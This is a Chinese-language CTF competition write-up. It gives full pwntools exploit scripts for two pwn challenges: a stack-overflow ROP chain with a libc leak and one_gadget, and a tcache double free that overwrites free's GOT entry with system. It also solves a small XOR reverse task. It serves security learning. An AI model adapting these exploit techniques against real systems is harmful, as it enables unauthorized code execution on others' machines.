


这次比赛很不错，一改以往的风格，质量比较高
自己做了一个pwn，问别的师傅搞出来一个pwn。据说最后那个pwn是本来打算上2.29的环境的，然后上错了上了个2.27，造成了一题两用的景象
PWN
echo server
首先就有一个坑，压缩包要解压两次，一开始看到winhex里面用test开头感觉很奇怪，不知道什么情况，把文件头删到elf为止，然后IDA打开很奇怪，后来才知道要再解压一次。。
分析
漏洞函数在这里
int sub_4006D2()
{
unsigned int v1; // [rsp+Ch] [rbp-84h]
char s; // [rsp+10h] [rbp-80h]
v1 = 0;
printf("how long is your name: ");
__isoc99_scanf("%d", &v1);
printf("and what's you name? ");
memset(&s, 0, 0x80uLL);
sub_4006A7(&s, v1); // sub_4006A7就是read，v1作为len
return printf("hello %s", &s);
}Arch: amd64-64-little
RELRO: Partial RELRO
Stack: No canary found
NX: NX enabled
PIE: No PIE (0x400000)感觉像个ROP
可以输入byte，然后read，溢出
那岂不是很简单，随便ROP就行了
虽然是18的环境，但是不重要，one_gadget一把梭就行了
需要注意的是，system在这⑧的行，为什么呢，很可能就是ubuntu18需要栈对齐啥的，system函数里面有需要你对齐到rsp+0x10，好像加个ret就可以？
不知道，反正不重要了，one_gadget能打就OK
exp
#!/usr/bin/env python
#coding=utf-8
from pwn import*
from LibcSearcher import *
import sys
context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
binary = './test'
local = 1
if local == 1:
p=process(binary)
else:
p=remote("",)
elf=ELF(binary)
libc=elf.libc
pop_rdi_ret = 0x0000000000400823
string = 0x400875
pop_rsi_r15 = 0x0000000000400821
def exp():
p.recvuntil("name: ")
p.sendline("300")
padding = "a"*136
payload = padding
payload += p64(pop_rdi_ret)
payload += p64(string)
payload += p64(pop_rsi_r15)
payload += p64(elf.got['__libc_start_main'])
payload += "a"*8
payload += p64(elf.plt['printf'])
payload += p64(0x4006d2)
p.send(payload)
libc_start_main_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
libc_base = libc_start_main_addr - libc.sym['printf']
one_gadget = libc_base + 0x4f2c5
log.success("libc_start_main_addr==>" + hex(libc_start_main_addr))
log.success("libc_base==>" + hex(libc_base))
p.recvuntil("name: ")
p.sendline("300")
padding = "a"*136
payload = padding
payload += p64(one_gadget)
p.recvuntil("name? ")
p.send(payload)
p.interactive()
exp()sales_office
glibc2.27,有tcache，没弄过，感觉要凉
分析
Arch: amd64-64-little
RELRO: Partial RELRO
Stack: Canary found
NX: NX enabled
PIE: No PIE (0x400000)got表可写
有以下功能
add
Show
free啊没有edit
int buy()
{
int v0; // ebx
void **v2; // rbx
signed int v3; // [rsp+Ch] [rbp-14h]
if ( num > 12 )
puts("You have no money.");
v0 = num;
area[v0] = malloc(0x10uLL);
puts("Please input the size of your house:");
v3 = read_int("Please input the size of your house:");
if ( v3 > 96 )
return puts("You can't afford it.");
if ( v3 < 0 )
return puts("?");
*(area[num] + 2) = v3;
v2 = area[num];
*v2 = malloc(v3);
puts("please decorate your house:");
read(0, *area[num], v3);
puts("Done!");
return num++ + 1;
}最大申请0x60的chunk，且总chunk数不能超过12，没有溢出
int show()
{
int v1; // [rsp+Ch] [rbp-4h]
puts("index:");
v1 = read_int("index:");
if ( area[v1] )
{
puts("house:");
puts(*area[v1]);
}
return puts("Done!");
}show不存在漏洞
int sell()
{
signed int v1; // [rsp+Ch] [rbp-4h]
puts("index:");
v1 = read_int("index:");
if ( v1 < 0 || v1 > 12 )
exit(0);
if ( area[v1] )
{
free(*area[v1]);
free(area[v1]);
}
return puts("Done!");
}free后未置零，存在double free(UAF)
但是tcache允许double free
然后我们只需要构造申请到一块以free_got为地址的chunk，并且content为system，就能把free_got改成system了
特别要注意的是，add的时候发送content要用send，不要用sendline
我就踩了这个坑，用了sendline，然后估计leak puts_addr的时候，把最后的”\n”也就是\xa0写进了puts_got，导致最后puts函数退出的时候，程序直接挂掉了，排错排了很久都找不到
exp
#!/usr/bin/env python
#coding=utf-8
from pwn import*
import sys
context.terminal = ['terminator','-x','sh','-c']
binary = './sales_office'
local = 1
if local == 1:
p=process(binary)
else:
p=remote("183.129.189.60",10008)
elf=ELF(binary)
#libc =ELF("libc.so")
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
def add(size,content):
p.recvuntil("choice:")
p.sendline("1")
p.recvuntil("house:\n")
p.sendline(str(size))
p.recvuntil("house:\n")
p.send(content)
def show(index):
p.recvuntil("choice:")
p.sendline("3")
p.recvuntil("index:")
p.sendline(str(index))
def free(index):
p.recvuntil("choice:")
p.sendline("4")
p.recvuntil("index:")
p.sendline(str(index))
def exp():
add(0x20,"aaaa") # 0
add(0x20,"bbbb") # 1
free(0)
free(1)
add(0x18,p64(elf.got['puts'])) # 2
show(0)
puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
libc_base = puts_addr - libc.sym['puts']
system = libc_base + libc.sym['system']
log.success("puts_addr==>" + hex(puts_addr))
log.success("libc_base==>" + hex(libc_base))
add(0x18,'fuck') # 3
free(3)
free(3)
add(0x18,p64(0x602018)) # 4
add(0x60,'/bin/sh\x00') # 5
add(0x18,p64(system)) # 6
free(5)
p.interactive()
exp()MISC
签到
别问我为什么只做了这一个，因为我看pwn去了，没有时间刚misc
有一个1G的文件，下载慢出天际，么得办法提速，用curl下个头就行

REVERSE
结束后才问别的师傅搞出来的
int __cdecl main(int argc, const char **argv, const char **envp)
{
size_t i; // [esp+28h] [ebp-80h]
char v5; // [esp+30h] [ebp-78h]
char v6[8]; // [esp+A0h] [ebp-8h]
_alloca(0x10u);
__main();
std::operator<<<std::char_traits<char>>(&std::cout, "input your key: ");
std::operator>><char,std::char_traits<char>>(&std::cin, &v5);
for ( i = 0; i < strlen(&v5); ++i )
v6[i - 112] = (v6[i - 112] ^ 6) + 1;
if ( !strcmp(&v5, "akhb~chdaZrdaZudqduvdZvvv|") )
std::operator<<<std::char_traits<char>>(&std::cout, "yes!you are right");
else
std::operator<<<std::char_traits<char>>(&std::cout, "try again");
system("PAUSE");
return 0;
}C艹，我裂开
v6[i-112]就是输入的v5
输入的flag经过^6+1要和akhb~chdaZrdaZudqduvdZvvv|相同
脚本
int main(){
char s[] = "akhb~chdaZrdaZudqduvdZvvv|";
char flag[26];
int i;
for(i=0;i<strlen(s);i++){
flag[i] = (s[i]-1)^6;
}
puts(flag);
return 0;
}
剩下的没搞了，感觉re那个encrypt3可能能做一下，但是我不会写脚本啊。。
这次比赛还行，题目质量还可以，学到点东西
主要就是时间有点短，看题目的时间都不够的
希望下一次能8小时打底